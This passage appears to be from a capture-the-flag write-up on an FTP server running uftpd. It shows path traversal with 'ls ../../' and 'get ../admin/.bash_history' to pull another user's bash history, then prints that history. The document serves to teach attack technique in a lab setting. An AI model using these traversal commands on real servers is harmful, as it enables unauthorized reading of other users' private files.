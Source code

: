 The only way to progress to finish this stage is to try doing path traversal with ls.
So something like this will list the root of the drive.
```
ls ../../
```

After exploring the file system for a while you might find two interesting things:

By executing this command you will find the home directory of the admin user.
In here we can spot the bash history of the admin user!
We can see it by running this command:
```
get ../admin/.bash_history <path here>/hist.txt
```

The bash history contains the following lines:

```
uftpd -o ftp=21
ps | grep ftp
ftp localhost
ls -la
exit
uftpd -o ftp=21
ifconfog
exit
ifconfig
uftpd -o ftp=21
ps
ps -aux
ls
cd home
ls
cd admin
ls
ls -la
mkdir.ssh
mkdir .ssh
chmod 700 .ssh
exit
sudo setcap cap_net_bind_service+ep /usr/local/sbin/uftpd 
exit
sudo setcap cap_net_bind_service+ep /usr/local/sbin/uftpd 
tty

exit
ls
cd /home
uftpd -o port=21
uftpd -o ftp=21
uftpd -
uftpd -o ftp=21 -n
adduser ftp
sudo adduser ftp
exit
cd admin
cd /home/admin
ls
uftpd -o port=21 -n
uftpd -o ftp=21 -n
uftpd -o ftp=21
ps
ps kill -9 244
kill -9 244
ps -aux
kill -9 247
```